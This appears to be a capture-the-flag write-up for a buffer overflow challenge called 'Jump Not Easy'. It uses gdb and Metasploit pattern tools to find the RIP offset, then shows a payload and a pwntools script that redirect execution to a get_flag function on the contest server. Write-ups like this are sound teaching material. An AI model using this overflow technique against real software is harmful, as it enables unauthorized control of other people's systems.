







# Jump Not Easy

This is a classic buffer overflow challenge. We don't have the source code so we'll disassemble the binary using radare2.

We can see that the main function calls the `jump` function.



Notice that the jump function calls `gets`, which is vulnerable to buffer overflows \(it does not check the received buffer length\).



We can now use `gdb` to debug the binary. Using `msf-pattern_create -l 1000`, we create a pattern that we will send to the binary.

Set a breakpoint at 0x00401304, right after the `gets` call.

```text
gef > break *0x00401304
Breakpoint 1 at 0x401304
```

After supplying our payload through the `gets` call, our breakpoint is triggered.



At this point we can analyse the stack frame _after_ receiving input, but _before_ returning from the `jump` function.

The `saved rip` value is the return address stored on the stack. We have successfully overwritten it.



```text
msf-pattern_offset -q 0x6341356341346341
[*] Exact match at offset 72
```

Now we know that the RIP offset is 72.

There is also a `get_flag` function at `0x0040125d`. Perhaps we can redirect the program execution here, and get our flag.



Let's test our hypothesis. We generate our payload file: `python -c 'print "A" * 72 + "\x5d\x12\x40\x00"' > ipt.txt`, then pass it to the binary in gdb.

```text
gef > run < ipt.txt
```

Here we have overwritten the RIP to the address of `get_flag`. Continuing from the breakpoint, we get "Error when opening the file!". This means that the `get_flag` function was indeed executed!



Now we can obtain the flag from the server.

```python
from pwn import *

ret = 0x0040125d
offset = 72
payload = b""
payload += b"A" * offset
payload += p32(ret)
print(payload)

conn = remote('chals5.umdctf.io', 7003)

print(conn.recvuntil("Where do you want to go?\n"))
conn.send(payload + b"\n")
print(conn.recv())

conn.close()
```



